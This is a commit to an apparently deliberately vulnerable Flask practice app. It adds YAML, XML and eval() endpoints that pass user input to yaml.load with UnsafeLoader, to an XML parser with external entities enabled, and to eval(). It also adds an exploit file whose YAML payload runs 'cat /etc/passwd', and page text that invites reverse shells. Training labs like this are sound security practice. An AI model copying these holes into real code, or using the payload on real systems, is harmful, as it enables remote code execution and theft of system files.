
After one commit to xNaaro/vulnerable_python, a Flask app: page /eval in a window 1280 px wide. The commit adds this page. Shown: the whole page at 77% size. Run offline with Flask 2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Implement yaml, xml and eval vulnerabilities

```diff
--- /dev/null
+++ b/exploits/yaml.yml
@@ -0,0 +1 @@
+!!python/object/apply:os.system ["cat /etc/passwd"]
--- a/templates/base.html
+++ b/templates/base.html
@@ -45,6 +45,7 @@
         <li><a href="/pickle">Pickle</a></li>
         <li><a href="/yaml">YAML</a></li>
         <li><a href="/xml">XML</a></li>
+        <li><a href="/eval">eval()</a></li>
       </ul><br>
     </div>
 
--- /dev/null
+++ b/templates/eval.html
@@ -0,0 +1,23 @@
+{% extends "base.html" %}
+{% block title %}Eval{% endblock %}
+{% block content %}
+<h1>Python eval() bypass vulnerability</h1>
+<div class="container-fluid p-3 my-3 border">
+        This site has a vulnerable backend application to unsaniticed python eval() attacks.<br><br>
+
+        Proper execution of a exploit will result with stdout from the server.<br>
+        You can also create reverse shells or whatever other exploit prefer.<br><br>
+    <h2>Example code used by the backend.</h2>
+    <pre>
+        eval(input)
+    </pre>
+    <h2>Eval() bypass</h2>
+    <form class="form-inline" method=post enctype=multipart/form-data>
+        <div class="form-group">
+          <label for="fname">Insert eval expression.</label>
+          <input type=text name=input_data id='input_data' class="form-control" size=100>
+        </div>
+        <input type=submit value=Send><br>
+    </form>
+</div>
+{% endblock %}
--- /dev/null
+++ b/templates/index.html
@@ -0,0 +1,4 @@
+{% extends "base.html" %}
+{% block title %}Home{% endblock %}
+{% block content %}
+{% endblock %}
--- a/templates/pickle.html
+++ b/templates/pickle.html
@@ -18,7 +18,7 @@
     <form class="form-inline" method=post enctype=multipart/form-data>
         <div class="form-group">
           <label for="fname">Pickle data input text (base64)</label>
-          <input type=text name=input_data id='input_data'>
+          <input type=text name=input_data id='input_data' class="form-control" size=50>
         </div>
         <div class="form-group">
             <label for="fname">Pickle data object file</label>
--- a/vuln_server.py
+++ b/vuln_server.py
@@ -1,9 +1,12 @@
-# import yaml
+import yaml
 import pickle
-# import xml
 import base64
+import random
 from flask import Flask, flash, request, redirect, render_template
 from outputgrabber import OutputGrabber
+from xml.dom.pulldom import parseString
+from xml.sax import make_parser
+from xml.sax.handler import feature_external_ges
 
 app = Flask(__name__)
 app.secret_key = "super secret key"
@@ -40,16 +43,54 @@ def pickle_injection():
     return render_template('pickle.html')
 
 
-@app.route('/yaml')
+@app.route('/yaml', methods=['GET', 'POST'])
 def yaml_injection():
-    return 'Hello, World'
+    if request.method == 'POST':
+        if request.form['input_data'] != '':
+            try:
+                output = OutputGrabber()
+                with output:
+                    yaml.load(request.form['input_data'], Loader=yaml.UnsafeLoader)
+                return output.capturedtext
+            except Exception as e:
+                return "Server Error: {}:".format(str(e))
+        else:
+            return redirect(request.url)
+    return render_template('yaml.html')
 
 
-@app.route('/xml')
+@app.route('/xml', methods=['GET', 'POST'])
 def xml_injection():
-    return 'Hello, World'
+    if request.method == 'POST':
+        if request.form['input_data'] != '':
+            parser = make_parser()
+            parser.setFeature(feature_external_ges, True)
+            doc = parseString(request.form['input_data'], parser=parser)
+            for event, node in doc:
+                doc.expandNode(node)
+                return(node.toxml())
+        else:
+            return redirect(request.url)
+    return render_template('xml.html')
 
 
-@app.route('/input')
-def input_injection():
-    return 'Hello, World'
+@app.route('/eval', methods=['GET', 'POST'])
+def eval_bypass():
+    if request.method == 'POST':
+        if request.form['input_data'] != '':
+            data = random.randint(1,1000)
+            try:
+                output = OutputGrabber()
+                with output:
+                    if data != eval(request.form['input_data']):
+                        pass
+                return output.capturedtext
+            except Exception as e:
+                return "Server Error: {}:".format(str(e))
+        else:
+            return redirect(request.url)
+    return render_template('eval.html')
+
+@app.route('/exec')
+def exec_bypass():
+    return render_template('exec.html')
```
Also changed, not shown: exploits/xml_xxe.xml (added, +9 -0 lines), templates/xml.html (added, +25 -0 lines), templates/yaml.html (added, +28 -0 lines), README.md.
